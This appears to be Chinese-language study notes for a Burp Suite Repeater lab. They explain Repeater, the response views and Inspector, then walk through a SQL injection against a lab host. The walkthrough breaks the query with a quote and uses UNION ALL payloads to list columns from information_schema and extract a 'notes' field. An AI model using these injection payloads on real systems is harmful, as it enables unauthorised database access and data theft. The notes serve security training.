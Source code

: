 ## task2
### REPEATER
 中繼器允許我們隨意製作和/或將攔截的請求中繼到目標。    
 我們可以獲取 Proxy 中捕獲的請求，對其進行編輯，然後根據需要多次重複發送相同的請求。     
## task3
在proxy中可以用 ctrl + r 發送到repeater
## task4
響應框上有4個選項
```
pretty：這是默認選項。它採用原始響應並嘗試稍微美化它，使其更易於閱讀。
Raw：來自服務器的純粹的、未經美化的響應。
hex：此視圖獲取原始響應並為我們提供它的字節視圖 - 如果響應是二進製文件，則特別有用。
render：渲染視圖渲染頁面，就像它出現在瀏覽器中一樣。雖然沒有巨大的因為使用中繼器時，我們通常會感興趣的源代碼是有用的，這仍然是一個巧妙的花招。
```
## task5
### Inspector 
 可用於 Proxy 和 Repeater。在這兩種情況下，它都出現在窗口的最右側，並為我們提供了請求和響應中的組件列表        
 請求部分幾乎總是可以更改，允許我們添加、編輯和刪除項目。例如，在請求屬性部分，我們可以編輯請求中處理位置、方法和協議的部分；例如更改我們要檢索的資源，將請求從 GET 更改為另一種HTTP方法，或者將協議從 HTTP/1 切換到 HTTP/2
## task6

## task7
/3 改成-1就會報500了
```
GET /products/-1 HTTP/1.1

Host: 10.10.250.123

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Connection: close

Referer: http://10.10.250.123/products/

Upgrade-Insecure-Requests: 1

```
## task8

發送 GET /about/2 ' HTTP/1.1      
服務器響應“500 Internal Server Error”，表明我們成功中斷了查詢    

40行 回應了 
```
<h2>
    <code>Invalid statement: 
        <code>SELECT firstName, lastName, pfpLink, role, bio FROM people WHERE id = 2'</code>
    </code>
</h2>
```
服務器告訴我們，我們試圖執行的查詢     
```
該消息告訴我們在利用此漏洞時將非常寶貴的幾件事：

我們從中選擇的數據庫表稱為 people。
該查詢正在從表中選擇五列：firstName、lastName、pfpLink、role和bio。我們可以猜測這些適合頁面的位置，這將有助於我們選擇放置響應的位置。
```
於我們知道表名和行數，我們可以使用聯合查詢people從默認數據庫中的columns表中選擇表的列名。information_schema     
* /about/0 UNION ALL SELECT `column_name`,null,null,null,null FROM `information_schema.columns` WHERE `table_name="people"` 
* 查看返回的響應，我們可以看到第一列名稱 ( id) 已插入到頁面標題中
  
* 通過使用`group_concat()`函數，我們可以將所有列名合併到一個輸出中
* /about/0 UNION ALL SELECT `group_concat(column_name)`,null,null,null,null FROM `information_schema.columns` WHERE `table_name="people"`

```
我們已成功識別出此表中的八列：id、firstName、lastName、pfpLink、role、shortRole、bio和notes


表名：people。
目標列的名稱：notes。
CEO的ID是1；這可以通過單擊/about/頁面上的 Jameson Wolfe 的個人資料並檢查 URL 中的 ID 來找到。
```

0 UNION ALL SELECT notes,null,null,null,null FROM people WHERE id = 1